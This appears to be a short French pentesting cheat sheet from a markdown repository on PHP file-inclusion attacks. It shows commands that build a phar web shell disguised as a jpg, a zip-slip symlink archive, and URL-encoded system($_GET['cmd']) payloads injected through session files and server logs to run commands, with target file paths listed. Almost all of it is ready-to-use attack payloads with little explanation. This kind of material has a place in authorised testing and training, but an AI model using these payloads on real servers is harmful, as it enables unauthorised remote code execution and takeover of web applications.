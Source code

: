
compiler le fichier au format phar et le renommer en jpg

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

webshell

```url
param=phar://./path/to/shell.jpg%2fshell.txt&cmd=id
```

### ZIP Archive contenant un lien symbolic (Zip slip)

```bash
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```



# Log Poisoning

## COOKIE

C:\Windows\Temp\sess_COOKIE
/var/lib/php/sessions/sess_COOKIE

fichier de session renvoie-t-il un paramètre sous notre contrôle ?

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_COOKIE
```

URL encoded Webshell

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_COOKIE&cmd=id
```

## Server Logs

> [!TIP]
> access.log / error.log contiennent le User-Agent. Attention peut etre dangereux en prod car peut faire crasher l'application

> [!Apache]
>  
> /var/log/apache2/
> C:\xampp\apache\logs\

